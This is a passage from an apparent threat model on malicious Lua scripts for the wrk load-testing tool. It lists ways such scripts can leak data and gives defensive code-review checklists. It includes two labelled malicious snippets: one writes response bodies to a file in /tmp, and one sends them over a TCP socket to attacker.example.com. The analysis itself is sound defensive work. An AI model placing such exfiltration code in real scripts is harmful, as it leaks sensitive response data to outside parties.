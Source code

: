 ```markdown
    *   **Write to File:**  Use Lua's `io` library to write the response body (or extracted parts) to a file on the system running `wrk`.  This is more stealthy.
        ```lua
        -- MALICIOUS EXAMPLE: Writing response body to a file
        function response(status, headers, body)
          local file = io.open("/tmp/exfiltrated_data.txt", "a")
          file:write(body .. "\n")
          file:close()
        end
        ```
    *   **Network Transmission:** Use Lua's socket library (or a custom library) to send the data to an attacker-controlled server. This is the most sophisticated and dangerous approach.
        ```lua
        -- MALICIOUS EXAMPLE: Sending data to a remote server (requires socket library)
        local socket = require("socket")
        function response(status, headers, body)
          local host, port = "attacker.example.com", 12345
          local client = socket.tcp()
          client:connect(host, port)
          client:send(body)
          client:close()
        end
        ```
    *   **Modify Headers:** While less direct, an attacker could potentially inject sensitive data into response headers if the script modifies them. This is less likely, but still a possibility.

*   **Exploiting `request` Function:**  While the primary threat is in the `response` function, a malicious script could also use the `request` function to *probe* for sensitive data by crafting specific requests based on information gleaned from previous responses.  This is a more advanced attack, using `wrk` as an active exploitation tool rather than just a passive data exfiltrator.

*   **Environment Variable Access:**  If sensitive data is stored in environment variables accessible to the `wrk` process, a malicious Lua script could access these using `os.getenv()`.

*   **Abuse of Custom Functions:** If the Lua script defines custom functions that handle sensitive data, these functions become potential targets for malicious modification.

*   **Lua Code Injection (Less Direct, but Possible):** If the Lua script itself is loaded from an untrusted source, or if its contents are dynamically generated based on user input *without proper sanitization*, an attacker could inject malicious Lua code. This is a general Lua security issue, but relevant in the `wrk` context.

### 2.2  Detailed Mitigation Strategies

The initial threat model provided good starting points.  Here's a more detailed breakdown and expansion:

1.  **Mandatory Code Review (Enhanced):**
    *   **Checklist:**  Develop a specific code review checklist for `wrk` Lua scripts.  This checklist should include:
        *   **Data Handling:**  Explicitly identify all points where the script accesses `response.body`, `response.headers`, and any other data sources.  Verify that sensitive data is not being logged, written to files, or transmitted without proper authorization and encryption.
        *   **Logging:**  Scrutinize all `print` statements and any custom logging functions.  Ensure that sensitive data is never logged directly.
        *   **File I/O:**  Review all uses of the `io` library.  Disallow writing to arbitrary file paths.  If file output is necessary, use a designated, secure directory with restricted permissions.
        *   **Network Communication:**  Carefully examine any use of socket libraries or other network communication mechanisms.  Validate the destination and purpose of any outgoing data.  Disallow connections to untrusted hosts.
        *   **Environment Variables:**  Check for uses of `os.getenv()`.  Ensure that sensitive environment variables are not being accessed unnecessarily.
```